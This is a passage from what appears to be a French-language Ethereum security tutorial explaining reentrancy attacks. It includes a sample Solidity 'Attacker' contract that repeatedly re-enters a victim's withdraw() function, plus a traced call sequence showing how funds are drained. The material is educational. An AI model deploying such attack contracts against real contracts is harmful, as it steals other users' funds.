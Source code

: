 Pour permettre à un utilisateur de retirer l'ETH qu'il a précédemment stocké dans le contrat, cette fonction :

1. lit le solde de l'utilisateur ;
2. lui envoie le solde en ETH ;
3. réinitialise le solde à 0, de sorte que l'utilisateur ne puisse pas retirer le solde de nouveau.

Si elle est appelée à partir d'un compte normal (comme celui de votre propre compte MetaMask), elle fonctionne comme prévu : msg.sender.call.value() envoie simplement l'ETH vers votre compte. Toutefois, les contrats intelligents peuvent également effectuer des appels. Si un contrat personnalisé et malveillant appelle la fonction `withdraw()`, msg.sender.call.value() n'enverra pas le montant d'ETH (via `amount`), mais appellera aussi implicitement le contrat pour commencer à exécuter du code. Imaginez le contrat malveillant suivant :

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Appeler Attacker.beginAttack() démarrera un cycle qui ressemble à quelque chose comme ça :

```
0.) Attacker's EOA calls Attacker.beginAttack() with 1 ETH
0.) Attacker.beginAttack() deposits 1 ETH into Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Victim sends ETH to Attacker (which executes default function)
    2.) Attacker -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Victim sends ETH to Attacker (which executes default function)
      3.) Attacker -> Victim.withdraw()
      3.) Victim reads balances[msg.sender]
      3.) Victim sends ETH to Attacker (which executes default function)
        4.) Attacker no longer has enough gas, returns without calling again
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (it was already 0)
  1.) balances[msg.sender] = 0; (it was already 0)
```

Appeller Attacker.beginAttack avec 1 ETH génère une nouvelle attaque par réentrance contre la victime, retirant plus d'ETH qu'il n'en a été fourni (prélevé sur les soldes des autres utilisateurs, entraînant une sous-garantie du contrat de la victime)

### Comment gérer la réentrance (de la mauvaise façon) {#how-to-deal-with-re-entrancy-the-wrong-way}
